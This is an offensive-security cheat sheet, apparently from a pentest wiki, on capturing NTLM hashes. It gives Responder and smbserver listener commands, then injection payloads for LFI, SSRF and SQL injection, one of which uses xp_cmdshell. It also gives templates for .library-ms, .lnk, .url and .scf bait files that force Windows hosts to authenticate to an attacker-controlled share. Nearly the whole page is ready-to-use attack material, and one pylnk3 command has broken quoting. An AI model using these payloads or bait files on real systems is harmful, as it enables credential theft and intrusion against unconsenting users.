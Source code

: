 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Capturing NTLM

## Listener

```sh
sudo responder -I $INTERFACE -A
```

```sh
smbserver.py share /dev/null -smb2support
```

## Possible Attacks

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```sh
# LFI
?page=\\$IP\shared

# SSRF
?url=file:////$IP/shared

# SQL Injection
?id=1' union select null,load_file('\\\\$IP\\shared'),null-- -
?id=1' union select null,(select x from OpenRowset(BULK '\\$IP\shared',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\$IP\shared'),null-- -
```

### Via .library-ms file

```sh
cat > '!shared.library-ms' <<'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\$IP\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
EOF
```

### Via .lnk file

```sh
pylnk3 c "\\\\$IP\shared' '!shared.lnk' -i "\\$IP\shared\icon.ico"
```

### Via .url file

```sh
cat > '!shared.url' <<'EOF'
[InternetShortcut]
URL=\\\\$IP\\shared
IconIndex=1
IconFile=\\\\$IP\\shared\\icon.ico
EOF
```

### Via .scf file

```sh
cat > '!shared.scf' <<'EOF'
[Shell]
Command=2
IconFile=\\\\$IP\\shared\\icon.ico
[Taskbar]
Command=ToggleDesktop
EOF
```
